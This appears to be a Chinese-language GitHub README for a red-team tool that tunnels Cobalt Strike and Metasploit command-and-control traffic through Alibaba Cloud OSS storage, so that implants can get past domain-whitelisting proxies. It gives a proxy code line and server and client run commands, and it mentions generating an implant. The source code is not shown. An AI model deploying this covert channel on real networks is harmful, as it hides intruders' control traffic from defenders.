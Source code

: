 # Alioss-stinger

利用阿里云oss对象存储，来转发http流量实现（cs）Cobalt Strike、msf 上线等

这之间利用阿里云的相关域名进行通信。

## 背景

在某次攻防中，内部通过代理服务器上网，且不能访问ip，域名白名单，刚好阿里云、腾讯云在其中，看到github上有个师傅写过的一些腾讯云的代码，但是有个问题，腾讯云的官方库好像不支持认证功能，于是我就照着这个师傅的代码改成了阿里云的版本。

参考：https://github.com/9bie/oss-stinger

修改39行就好，加入内网代理服务器

```
ossClient, err = oss.New(endPoint, accessKeyId, accessKeySecret, oss.AuthProxy("http://127.0.0.1:8080", "", ""))
```

## 如何使用

```
PS C:\Users\xxx\Desktop\github\goalioss-stinger> go run .\main.go -h
Usage of C:\Users\xxx\AppData\Local\Temp\go-build3967568892\b001\exe\main.exe:
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080
  -mode string
        client/server 二选一
  -osskey string
        format: endpoint:accessKeyId:accessKeySecret:bucketName
```

### CS

生成监听本地127.0.0.1:8001的木马：

![image-20221214185423368](README.assets/image-20221214185423368.png)

### 服务端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode server -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

### 客户端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode client -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

![image-20221214185022534](README.assets/image-20221214185022534.png)

# 阿里云安全配置
[参考](https://www.yuque.com/pant0m/netsecnote/kyqg65wkmxycfhei)

